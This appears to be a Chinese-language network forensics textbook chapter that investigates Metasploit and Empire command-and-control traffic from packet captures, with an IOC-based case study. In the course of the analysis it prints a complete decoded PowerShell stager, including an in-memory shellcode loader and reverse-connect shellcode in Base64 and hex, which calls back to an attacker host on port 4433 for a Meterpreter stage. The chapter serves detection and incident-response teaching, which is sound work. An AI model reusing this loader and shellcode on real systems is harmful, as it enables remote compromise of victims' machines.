

# 第七章：调查 C2 服务器

在上一章中，我们了解了恶意软件分析在网络取证中的工作原理。现在让我们研究一些先进且广泛使用的**命令与控制**（**C2**）工具，了解它们在网络中的行为，并尝试制定识别它们的策略。最受欢迎的 C2 工具是**Metasploit**和**Empire**，这两者都广泛应用于红队演练和专业渗透测试中。然而，一些易于使用的工具有时会吸引网络犯罪分子使用它们。虽然许多检测工具可以检测到 Metasploit 的使用，但建议我们也通过手动调查事件来加以确认。

本章内容将包括以下主题：

+   解码 Metasploit shell

+   案例研究 – 解密 Metasploit 反向 HTTPS Shellcode

+   Empire C2 分析

+   案例研究 – CERT.SE 的重大欺诈与黑客犯罪案件，**B 8322-16**

让我们首先调查 Metasploit 中使用的基本反向 TCP shell。我们将查看`meterpreter_basic.pcap`文件进行此练习。

# 技术要求

完成本章练习需要以下工具：

+   安装了 Kali 操作系统的 VMWare Player/VirtualBox，您可以从[`www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/`](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)下载

+   Wireshark v3.0.0（[`www.wireshark.org/download.html`](https://www.wireshark.org/download.html)）已安装在 Windows 10 操作系统/ Ubuntu 14.04（Kali Linux 上已预装）

+   PowerShell（已安装在 Windows 10 上）

+   Python（已安装在 Kali Linux 上）

+   从[`www.netresec.com/?page=Networkminer`](https://www.netresec.com/?page=Networkminer)下载 NetworkMiner

+   从[`github.com/nipunjaswal/networkforensics/tree/master/Ch7`](https://github.com/nipunjaswal/networkforensics/tree/master/Ch7)下载本章的 PCAP 文件

# 解码 Metasploit shell

让我们开始在 Wireshark 中调查文件，尝试推测发生了什么。我们将专注于收集以下详细信息：

+   C2 服务器 IP

+   C2 服务器端口

+   被感染的系统 IP

+   被感染系统的端口

+   攻击者执行的操作

+   攻击发生时间

+   攻击持续时间

让我们启动 Wireshark 并选择**统计信息** | **会话** | **TCP**标签：


我们可以看到，主要有两个会话在`192.168.46.128`和`192.168.46.129`之间通过端口`80`和`4433`进行。让我们使用 TCP 过滤器来筛选这些会话并分析输出：


我们可以看到第一个 TCP 数据包（`23`-`25`）仅仅是三次握手。然而，接下来我们有一个从数据包 `71` 开始的独立会话。另一个奇怪的事情是，使用的通信端口是端口 `80`。但是，由于某种原因，显示的数据仍然是 TCP 封装的数据，而不是应用层数据（HTTP）。这是很奇怪的，通常发生在端口 `80` 被用于非 HTTP 通信的情况下。让我们右键点击数据包 `71`，并跟踪 TCP 流：


好的，看起来我们已经找到了罪魁祸首！我们可以看到一个 `dir` 命令正在被执行，并且数据正在被接收。这是一个 C2（命令与控制）案例，攻击者可能执行了 `dir` 命令，并且响应被发送给了他们。然而，在过滤流中我们看到了大量的命令。此外，`pcap` 文件中存在的流的数量与会话的 TCP 标签中显示的流的数量相等。因此，我们知道文件中有四个流，分别如下：

+   三次握手

+   端口 `80` 上的 C2 设置

+   `dir` 命令

+   端口 `4433` 上的通信

虽然包含 `dir` 命令的流 2 被放置在流 1 下面，但我们观察到流 1 结束的时间远远晚于流 2，因为它是一个持续的实时 Shell 流。

回到流 1 中的命令，执行了以下命令：

```
cmd.exe /c "echo. | powershell get-host"&echo STJEXrMKAkjOshArBckoeWYztVtWXdpt  
```

上面的命令运行了 PowerShell 中的 `get-host`，它显示了以下输出：

```
    Name : ConsoleHost
    Version: 2.0
    InstanceId : 12db3119-6933-4952-926a-b57f6d910559
    UI: System.Management.Automation.Internal.Host.InternalHostUserI
    nterface
    CurrentCulture : en-US
    CurrentUICulture : en-US
    PrivateData: Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
    IsRunspacePushed: False
    Runspace: System.Management.Automation.Runspaces.LocalRunspace

    STJEXrMKAkjOshArBckoeWYztVtWXdpt

```

我们还可以看到命令中回显了一个标识符。这个标识符通常用于识别被攻陷主机的唯一输出，同时也表示输出的结束。让我们看看下一个命令：


# 使用 PowerShell 混淆

`%COMSPEC%` 命令仅仅是 `cmd.exe` 的占位符变量，我们可以通过在 CMD 中输入 `echo %COMSPEC%` 来验证这一点。接下来，我们可以看到 `powershell.exe` 被调用，并且是通过 `/min` 和 `-w hidden` 开关在最小化和隐藏窗口中启动的。在接下来的几行中，PowerShell 从 system32 和 64 位目录（例如 `sysWOW64`）中被搜索。让我们解码这个 Base64 编码的有效载荷，看看它到底隐藏了什么：


我们在进行 Base64 解码后得到了上面的输出。然而，这仍然没有太多意义。我们可以在输出中看到另一个 Base64 编码的字符串和 Gzip 压缩对象。让我们在下一部分尝试解压 Gzip 压缩并使用 Base64 解码它：

# 使用 Python 解码和解压缩

让我们深入分析一下。我们可以使用 Python 解码内容，这些内容经过 Gzip 压缩和 Base64 编码：

```
>>> import io 
>>> import base64 
>>> import gzip 
>>> file_content = io.BytesIO(base64.b64decode("H4sIAJrUfFwCA7VW+2/aSBD+OZX6P1gVkm3V4RFoeskp0q15muIEYh4hFEUbe22WrL2wXodHr//7jQEn6TWt2pPOArGenZmd+b6ZWRyJhTx2GCEL5ThWSn/6SeRKyiMF90fdovLl7ZujLhY4VLSce2coue3ppqYfHYE4R/iH7h/KhaJN0GJR4yGm0fT8vJoIQSK5f883iURxTMJ7Rkms6crfymhGBDm+up8TVypflNxdvsn4PWYHtU0VuzOiHKPIS/c63MVpOHlnwajU1M+fVX1yXJrm68sEs1hTnU0sSZj3GFN15aueHtjfLIim2tQVPOa+zI9oVD7JD6IY++QSvD0Sm8gZ92JVhzTgI4hMRKTsE0o97Pc1FZZdwV3keYLEoJ63okf+QLRclDBmKH9pk8Px10kkaUhgXxLBFw4Rj9Qlcb6FI4+Ra+JPtUuyyrL+VSPtpRFodaXQDSDitTht7iWM7E1V/ftIgT0dnoxByPzr2zdv3zzRzSovuYbV0WS3JhCb1uUx3WldKEVDseEQLLnYwGuuLxKiT5VJCvpkOlVyi/4dMn5sX8qUQXXZBcFkyKk3BYMDGbnYvFun8h8XVY34NCK1TYRD6mZ1o72GMPEZ2eWXz9QuISRNPWwQr0YYCbBMITOUyfdm9ZDKJ1szocwjArnAUgxRAYH6t8HsWdBUK7JJCAjt31VA3YdqJZn2oUI32enpOyipVYbj2FC6CbSLaygOwYx4hoKimB62UCL5bqk+h2snTFIXxzJzN9UzHA/nVXkUS5G4QBrk3ncWxKWYpVAYSot6xNw4NMjOVV8FoooZo1EAnh6BCJCkADgyLQUBIe5o1/MOkVa4YCQEnV3fNhgOoEsPpb6rHRwQT/13hFkl78s2xSID4UV8QLDDuDSUIRUS2j/Fddn9b4e/aPtdGFVBDkRoWW9MzI1Mazo33662abFnsOxAEBIAaAgemjgmpxVHCoBHe1e4olUEz9iKmO2aD7SEVrRk2fAd0LLFax+9T+15qyBq65mPrNiyW91ar9WqPLadYUU6dUt+6lrSrt/M5w5qXQ/G8tZCrT4tPowr20Wbbp0O8sbrwunW3K6K5no7Dzx/XPP94KPvXJc+NGhnVO2ZxRPcqdWTzshcmcVKXKerVo8Oeg/thrwfDxke+IXgpnSG6boj5sMSt7cWQs1Z2d22/WFzZnubcYuSeaHYoT3UQ+iTez0YNINF0IxR4Wy4rIZztKyemhhZqD5stj8wszdomGhQN3v4infL72uF0q23rDdub3A7ZF6zVSiNb5CHtoV+MCt9bM5XErdHqS/U5PUh8ziSkXVTKAzp9nbZawaoDjgOQ45wgz4M3t+Av8s+DszRoPSsi1x7sY5uktXq4uJdSiwwm6Ol8gu6fjRnbSziGWZAI8zPrHcaXDQOM7HLaWqhafur8IGIiDC4SeCuySoQMcbddCbD+ITbYD+jp9BAA1iWT15d6cqTov48qDPR+fktBAk1vSu6fIdEgZwZxXW5WITRW1xXipDkr2dW5YuNtvdlpLM7hebJOds519Naz8Vn/zNihwabwY/3c8SeZT/Z/SUUi8Yu3++k3wp+C9DfT3yEqQRVB8YDI/v76bX8D8Xx4uqOz4B3//Ckf52uEnl8Cff5P9ds5qy1CQAA")) 
>>> result = gzip.GzipFile(fileobj=file_content) 
>>> result.read() 
```

我们首先导入输入/输出、Gzip 和 base64 库。接下来，我们使用 base64 解码内容并获得解码后的字节。这些字节是 Gzip 压缩格式的，因此需要解压缩。我们将内容进行 Gzip 解压并将结果存储在 result 变量中，然后打印数据：

```
Start-Sleep -s 1;function aTWP0 { 
   Param ($c_, $z6yD)        
   $eo5P8 = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split(\'\\\\\')[-1].Equals(\'System.dll\') }).GetType(\'Microsoft.Win32.UnsafeNativeMethods\') 

   return $eo5P8.GetMethod(\'GetProcAddress\').Invoke($null, @(System.Runtime.InteropServices.HandleRef, ($eo5P8.GetMethod(\'GetModuleHandle\')).Invoke($null, @($c_)))), $z6yD)) 
} 

function l4 { 
   Param ( 
         [Parameter(Position = 0, Mandatory = $True)] [Type[]] $pT_A, 
         [Parameter(Position = 1)] [Type] $qP = [Void] 
   ) 

   $sB_x = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName(\'ReflectedDelegate\')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule(\'InMemoryModule\', $false).DefineType(\'MyDelegateType\', \'Class, Public, Sealed, AnsiClass, AutoClass\', [System.MulticastDelegate]) 
   $sB_x.DefineConstructor(\'RTSpecialName, HideBySig, Public\', [System.Reflection.CallingConventions]::Standard, $pT_A).SetImplementationFlags(\'Runtime, Managed\') 
   $sB_x.DefineMethod(\'Invoke\', \'Public, HideBySig, NewSlot, Virtual\', $qP, $pT_A).SetImplementationFlags(\'Runtime, Managed\') 

   return $sB_x.CreateType() 
} 
[Byte[]]$jzwzy = [System.Convert]::FromBase64String("/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMHPDQHH4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7fSR15FiLWCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzIAAGh3czJfVGhMdyYHiej/0LiQAQAAKcRUUGgpgGsA/9VqCmjAqC6BaAIAEVGJ5lBQUFBAUEBQaOoP3+D/1ZdqEFZXaJmldGH/1YXAdAz/Tgh17GjwtaJW/9VqAGoEVldoAtnIX//VizZqQGgAEAAAVmoAaFikU+X/1ZNTagBWU1doAtnIX//VAcMpxnXuww==") 

$i13 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((aTWP0 kernel32.dll VirtualAlloc), (l4 @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $jzwzy.Length,0x3000, 0x40) 
[System.Runtime.InteropServices.Marshal]::Copy($jzwzy, 0, $i13, $jzwzy.length) 

$s9 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((aTWP0 kernel32.dll CreateThread), (l4 @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$i13,[IntPtr]::Zero,0,[IntPtr]::Zero) 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((aTWP0 kernel32.dll WaitForSingleObject), (l4 @([IntPtr], [Int32]))).Invoke($s9,0xffffffff) | Out-Null' 
```

我们可以看到我们已经解码了整个有效负载，看起来像是反射式 DLL 注入。然而，我们仍然可以看到另一个 base64 编码的字符串。让我们按如下方式解码它：



我们可以看到解码后的值；这是攻击者使用的 shellcode。我们将其转换为十六进制字符串：

```
>>>import base64 
>>>base64.b64decode("/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMHPDQHH4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7fSR15FiLWCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzIAAGh3czJfVGhMdyYHiej/0LiQAQAAKcRUUGgpgGsA/9VqCmjAqC6BaAIAEVGJ5lBQUFBAUEBQaOoP3+D/1ZdqEFZXaJmldGH/1YXAdAz/Tgh17GjwtaJW/9VqAGoEVldoAtnIX//VizZqQGgAEAAAVmoAaFikU+X/1ZNTagBWU1doAtnIX//VAcMpxnXuww==").hex() 
```

上面的程序输出如下内容：

```
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c77260789e8ffd0b89001000029c454506829806b00ffd56a0a68c0a82e81680200115189e6505050504050405068ea0fdfe0ffd5976a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd56a006a0456576802d9c85fffd58b366a406800100000566a006858a453e5ffd593536a005653576802d9c85fffd501c329c675eec3 
```

我们可以将前面的字符串以 shell 代码的形式查看，如下所示（有一个很棒的在线资源可以将十六进制字符串转换为 x86 汇编：[`defuse.ca/online-x86-assembler.htm`](https://defuse.ca/online-x86-assembler.htm)）：


向下滚动代码，我们有几行有趣的内容，显示了以下内容：


在 `af` 行（第 4 行），我们有 `push 0x812ea8c0`，它是大端格式。我们将其转换为小端格式，字节反转为 `c0a82e81`。将其从十六进制转换为 IP 地址，我们得到 `192.168.46.129`，类似地，下一行 `51110002` 的前半部分是小端格式的端口号 `1151`（十六进制）到 `4433`（十进制）。

`4433` 是网络捕获文件中流 3 所通讯的端口。此外，如果我们仔细查看汇编代码，我们会发现该 shellcode 用于连接到定义的 IP 和端口，并为攻击者提供了对目标的一些访问权限。查看汇编代码超出了本书的范围。因此，如果你想了解更多关于汇编的知识，请查阅 *进一步阅读* 部分。

那么，我们找到了所有最初的问题的答案吗？让我们来看看：

+   **C2 服务器 IP**：`192.168.46.129`

+   **C2 服务器端口**：`80`（shell），`4433`（未知）

+   **感染系统的 IP**：`192.168.46.128`

+   **感染系统的端口**：`49273`，`49724`，以及其他端口

+   **攻击者执行的操作**：

    +   当用户从桌面执行某个恶意文件时，攻击者获得了对系统的 shell 访问权限。

    +   攻击者在目标上运行了 `dir` 命令，并收集了当前目录下的项目列表。

    +   攻击者执行了 PowerShell 并运行了 `get-host` 来获取控制台主机信息。

    +   攻击者运行了另一个 PowerShell 脚本，执行了一个高度混淆的有效负载，该有效负载连接到攻击者系统的端口 `4433`，并为攻击者提供了一定的访问权限：

        +   **攻击发生时间**：13:01:13

        +   **攻击持续时间**：2:44 分钟（捕获文件属性）

现在查看流 3：


当我们过滤到流 3 并跟踪流时，得到前面的输出，似乎是一个可执行文件，因为前几个字节包含了 MZ 魔术字节，这是可执行文件和 DLL 的默认标识。让我们继续查看：


向下滚动一点，我们可以看到许多表示常见 Metasploit 关键字的函数，例如**类型长度值** (**TLV**)-基础标识符。Meterpreter 后门使用 TLV 通信。

此外，我们还看到了一些 WIN API 函数。这个文件是 Meterpreter DLL 文件，它在运行时被注入到目标的调用进程中。因此，*某种形式的访问* 在答题部分是 Meterpreter 对目标的访问。继续查看，我们可以看到整个通信是加密的，这是 Meterpreter 的常见特性。

总结这次调查，我们有以下关键点：

+   攻击者在连接后获得了目标系统的 shell 访问权限。

+   攻击者在`Desktop`文件夹中运行了`dir`命令。因此，允许攻击者访问的罪魁祸首文件位于桌面上。

+   攻击者执行了一个包含高度混淆有效载荷的 PowerShell 命令。

+   有效载荷包含了攻击者的 IP 和端口 `4433`，用于连接到攻击者。这个机制看起来像是现有 shell 的更新，这是 Metasploit 中的一个功能，你可以将你的 shell 更新为 Meterpreter shell。

+   Meterpreter DLL 被下载到受害者系统，并且在流 3 上启动了连接。

我们在这个练习中仅使用网络证据，并借助 Python 和一些参考网站，推断出了很多信息。此外，我们还看到了如何解码和解压通过网络发送的混淆有效载荷。接下来，让我们看看如何处理启用了 HTTPS 的 Metasploit 有效载荷。

# 案例研究 – 解密 Metasploit 反向 HTTPS Shellcode

在没有使用中间人攻击或某种 SSL 卸载器的情况下，几乎不可能解密 HTTPS 通信。在 Meterpreter shell 的情况下，密钥和证书是动态生成的，并随后被移除，这使得解密加密会话更加困难。然而，有时恶意攻击者可能会使用并冒充 SSL 证书，并将其保留在自己的系统上。在这种情况下，获取私钥可以帮助我们解密 HTTPS 有效载荷。以下示例演示了在自签名证书的情况下如何进行 SSL 解密，我们假设事件响应者以某种方式从攻击者系统获取了密钥。让我们看看下面截图中给出的加密通信：


我们可以看到数据被加密了，且没有多少有意义的内容。让我们在 NetworkMiner 中打开这个`meterpreter_https.pcap`文件，并浏览到**文件**标签：


我们可以看到通信中包含证书，但其真实性验证失败。在我们尝试解密加密的 Meterpreter 会话内容时，需要注意的是，在大多数情况下，我们无法获得私钥来进行解密。在这种情况下，我们将利用一些警示标志，比如 SSL 证书验证失败，来判断通信通道是否恶意。接下来，让我们尝试解密加密的通信：


我们将从**首选项**中进入**协议**部分，导航到**SSL**，然后点击**RSA 密钥列表**选项，接下来会显示以下内容：


一旦我们在**SSL 解密**部分填写了 IP 地址、端口号和密钥文件，我们就会看到解密后的数据：


我们可以看到，现在我们在 Wireshark 中解密了数据。由于我们正在处理解密后的 SSL 会话，因此分析也适用于 HTTP 有效载荷。Meterpreter HTTP 有效载荷使用信标机制，像其他 C2 系统一样。在 HTTP 的情况下，它们仅仅是 GET 请求，并生成长度为零的响应。如果我们仔细观察，会看到这些响应的内容长度为零：


需要注意的另一点是，响应只包含**Apache**，这是一种非标准 HTTP 头，看起来不正常，因为它没有包含 Apache 服务器的具体版本。虽然这些是通信中的一些警示标志，但并不全面，您应继续研究以发现更多信息。

回到我们之前关于如何解密 SSL 会话的讨论，我们得到了以下内容：

+   我们以某种方式从攻击者那里获取 SSL 密钥

+   我们修改攻击者的 Metasploit 实例并记录他们的密钥

+   我们修改攻击者的 Metasploit 实例并提供静态密钥和证书

+   我们进行中间人攻击

查看这篇关于运行时 Meterpreter 密钥分析的好文章，了解如何修改密钥和攻击者系统中的证书：[`khr0x40sh.wordpress.com/2013/06/25/exporting-runtime-private-key-for-msfs-meterpreter-reverse-tcp-and-https/`](https://khr0x40sh.wordpress.com/2013/06/25/exporting-runtime-private-key-for-msfs-meterpreter-reverse-tcp-and-https/)。

# 分析 Empire C2

Empire 是一个纯 PowerShell 的后渗透代理，提供类似于 Metasploit Meterpreter 的功能。类似于**妥协指示器**（**IOC**）在 Metasploit 中的表现，Empire C2 也有不同的 IOC。让我们分析`empire_shell.pcap`文件，并在 Wireshark 中加载它以查看`pcap`的属性：


捕获文件包含了超过三个半小时的流量分析。让我们看看流量对话：


我们可以看到一个明显的模式，表明存在信标行为，因为我们可以看到大多数 2,649 个会话中的数据包数量是静态的，大部分值为 `5`。被 Empire 感染的系统倾向于生成大量的 HTTP 请求。让我们使用 HTTP 包含 `GET` 过滤器来过滤一些 HTTP 请求，看看底层情况：


攻击者可以轻松修改前述 URI 条目。但是对于经验不足的对手来说，这些值将是默认的，如前面的屏幕截图所示。这三个 URI — `/admin/get.php`、`/login/process.php` 和 `news.php` — 定义了 Empire 的整个通信控制。让我们深入挖掘其中一个请求的细节：


在记录前述的 pcap 时，目标使用的是 Windows 10 系统。然而，根据生成的请求，用户代理指明请求系统为 Windows 7（Windows NT 6.1）。此外，响应中的服务器头部指明服务器为 Microsoft-IIS/7.5，而响应主体中的 `It works!` 消息看起来类似于 Apache 服务器使用的默认 `index.html` 页面。

TTL 值也可以透露出大量的详细信息，例如 TTL 值为 `64` 表示 Linux 系统，而基于 Windows 的操作系统则使用 `128` 作为默认 TTL 值。

更多信息，请参考 TTL 值的这张表格：[`subinsb.com/default-device-ttl-values/`](https://subinsb.com/default-device-ttl-values/)。

# 案例研究 – CERT.SE 的主要欺诈和黑客刑事案件，B 8322-16

请参阅案例研究 [`www.cert.se/2017/09/cert-se-tekniska-rad-med-anledning-av-det-aktuella-dataintrangsfallet-b-8322-16`](https://www.cert.se/2017/09/cert-se-tekniska-rad-med-anledning-av-det-aktuella-dataintrangsfallet-b-8322-16)。我们可以从 [`drive.google.com/open?id=0B7pTM0QU5apSdnF0Znp1Tko0ams`](https://drive.google.com/open?id=0B7pTM0QU5apSdnF0Znp1Tko0ams) 下载 PCAP 文件。该案例突显了使用开源工具，并指出感染发生在目标收到一封带有宏启用文档的电子邮件后。攻击者要求受害者启用宏以查看文档内容，从而在目标系统上生成立足点。我们将从网络角度分析 `pcap` 并突出感兴趣的信息。

让我们启动 NetworkMiner 并概述发生了什么：


如果我们按字节对数据包进行排序，将 `37.28.155.22` 作为顶级 IP 地址。让我们查看其详细信息：


我们可以看到系统是 Linux，并且如前所述，其 TTL 值为 `64`。该系统上的开放端口为 `8081` 和 `445`。让我们启动 Wireshark 来调查此 IP：


我们可以看到 92% 的流量属于 `37.28.155.22`，如前面的屏幕截图所示。让我们看一些 HTTP 数据：


哦！看起来 Empire 框架在这里被使用了。让我们通过调查其中一个数据包来确认我们的怀疑：


正如我们先前讨论过，并在 NetworkMiner 中看到的那样，`37.28.155.22` IP 是一个 Linux 服务器，TTL 值为 `64`。前面的请求没有意义，因为它声明服务器运行的是 Microsoft IIS 7.5，并且具有与 Windows 7 相同的请求签名。通信来自 Empire。然而，攻击者修改了一些页面，如 `news.php` 和 `news.asp`。我们还可以看到流动的加密数据：


我们刚刚看到了如何使用 Empire 等工具来实施真实世界的犯罪。因此，了解其 IOCs 对我们始终有好处。

因此，总结这次调查，我们得到以下细节：

+   **C2 服务器 IP**：`37.28.155.22`

+   **C2 服务器端口**：`8081`

+   **感染系统 IP**：`195.200.72.148`


感染系统的端口

+   **攻击者执行的操作**：

    +   当用户执行包含宏的恶意文档时，攻击者获得了对系统的 shell 访问权限（来源：案例研究）。

    +   攻击者通过其 C2 服务器的端口 `8081`，通过 Empire 获得了访问权限（来源：PCAP）。

        +   **攻击时间**：2017 年 9 月 14 日，印度标准时间 13:51:14.136226000（数据包到达时间）

        +   **攻击持续时间**：21 分钟+（Capinfos/Statistics | Capture File Properties）

# 摘要

在本章中，我们看到如何解码 Metasploit 的编码有效载荷，并从网络本身捕获的证据中理解。我们看到了攻击者如何从普通的反向 shell 迁移到 Meterpreter shell 的各种技术。我们研究了多种技术以解密加密的 Meterpreter 通信。我们还了解了 Empire 的工作原理，并在应用到真实案例研究时学习了其威胁指示。在本章中，我们依赖于启用 pcap 的数据。

在下一章中，我们将探讨如何使用基于日志的数据来解决真实世界案例。

# 问题和练习

根据本章涵盖的材料回答/解决以下问题和练习：

1.  重复本章中涵盖的练习

1.  尝试解码 GitHub 上的 `Challenges` 目录中的其他样本（[`github.com/nipunjaswal/networkforensics/tree/master/Challenges`](https://github.com/nipunjaswal/networkforensics/tree/master/Challenges)）

1.  下列哪些使用 TLV 作为其通信标准？

    1.  Metasploit

    1.  Empire

1.  下列哪些用于保持攻击者了解目标是否在线的灯塔功能？

    1.  Metasploit

    1.  Empire

    1.  两者

    1.  以上均无

# 进一步阅读

查看以下资源以获取本章涵盖的更多信息：

+   **Metasploit 的详细通信和协议文档**: [`www.exploit-db.com/docs/english/27935-metasploit---the-exploit-learning-tree.pdf`](https://www.exploit-db.com/docs/english/27935-metasploit---the-exploit-learning-tree.pdf)

+   **Metasploit 的 SSL 生成模块**: [`github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/lib/rex/post/meterpreter/client.rb`](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/lib/rex/post/meterpreter/client.rb)

+   **Empire IOCs**: [`www.sans.org/reading-room/whitepapers/detection/disrupting-empire-identifying-powershell-empire-command-control-activity-38315`](https://www.sans.org/reading-room/whitepapers/detection/disrupting-empire-identifying-powershell-empire-command-control-activity-38315)

+   **微软的 Windows 版本列表**: [`en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions`](https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions)
